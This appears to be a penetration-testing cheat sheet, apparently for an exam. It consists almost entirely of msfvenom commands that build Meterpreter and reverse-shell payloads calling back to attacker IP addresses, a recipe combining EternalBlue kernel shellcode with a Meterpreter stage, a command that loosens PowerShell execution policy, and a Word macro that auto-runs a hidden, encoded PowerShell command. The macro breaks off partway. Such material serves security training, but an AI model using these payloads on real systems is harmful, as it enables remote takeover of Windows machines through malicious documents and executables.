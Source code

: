 ## Msfvenom

### Windows exe staged_payload (needs metasploit to catch, **allowed on exam**)

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=5555 -f exe > binary.exe
```

### Powershell

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.194 LPORT=5555 -f powershell
```

### Combining payloads

```sh
nasm -f bin eternalblue_x64_kshellcode.asm -o sc_x64_kernel.bin
msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o sc_x64_msf.bin LHOST=192.168.254.142 LPORT=4444
cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
```


## Windows tips & tricks

### Changing execution policy

```sh
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```

## Microsoft-word macro payload

First create an `evil.hta` file like so:

```sh
# recommended
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.194 LPORT=80 -f vba-psh > payload.txt
# or
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta 
```

Next create a new macro and copy-paste the file into the macro

Finally create a word macro and past the shell code in like so:

```sh
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
    Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB"
    Str = Str + "TAHQAcgBlAGEAbQAoACwAWwBDAG8AbgB2AGUAcgB0AF0AOgA6A"
    Str = Str + "EYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAEg"
    Str = Str + "ANABzAEkAQQBBAEEAQQBBAEEAQQBFAEEATAAxAFgANgAyACsAY"
    Str = Str + "gBTAEIARAAvAG4ARQBqADUASAAvAGgAZwBDAFoAQwBJAFoAUgB"
```